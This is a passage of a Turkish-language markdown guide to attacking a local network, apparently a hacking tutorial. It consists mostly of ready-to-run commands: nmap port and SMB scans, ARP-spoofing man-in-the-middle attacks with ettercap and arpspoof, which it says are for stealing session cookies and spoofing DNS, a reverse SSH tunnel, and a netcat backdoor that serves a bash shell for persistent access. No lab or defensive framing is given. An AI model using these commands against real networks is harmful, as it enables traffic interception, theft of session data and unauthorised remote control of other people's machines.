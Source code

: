 ### 🔹 Açık Portları Tespit Etme:
```bash
nmap -p- 192.168.1.1/24
```

### 🔹 SMB (Windows Dosya Paylaşımı) Taraması:
```bash
nmap --script smb-os-discovery -p 445 192.168.1.0/24
```

### 🔹 SSH ile Cihazlara Bağlanma (Eğer Açık İse):
```bash
ssh user@192.168.1.X
```

---

# 📌 4️⃣ Man-in-the-Middle (MitM) Saldırıları
Bağlı cihazların trafiğini yönlendirmek için **MitM saldırıları** uygulanabilir.

### 🔹 Ettercap ile MitM:
```bash
ettercap -T -q -i wlan0 -M arp // //  
```

### 🔹 ARP Spoofing:
```bash
arpspoof -i wlan0 -t 192.168.1.100 -r 192.168.1.1
```
📌 Bu teknikler ile **şifrelenmemiş trafiği dinleyebilir**, **oturum çerezlerini ele geçirebilir** veya **DNS sahtekarlığı** yapabilirsiniz.

---

# 📌 5️⃣ Kalıcılığı Sağlama (Persistent Access)
Bağlantıyı kaybetmemek için **backdoor** veya **VPN tünelleme** yöntemleri kullanılabilir.

### 🔹 SSH Tünelleme ile Kalıcı Bağlantı:
```bash
ssh -R 2222:localhost:22 user@remote-server
```

### 🔹 Netcat ile Geri Bağlantı Açma:
**Hedef makinede:**
```bash
nc -lvnp 4444 -e /bin/bash
```
📌 Bu yöntem, bir bağlantı koparsa tekrar erişim sağlamaya yardımcı olabilir.

---
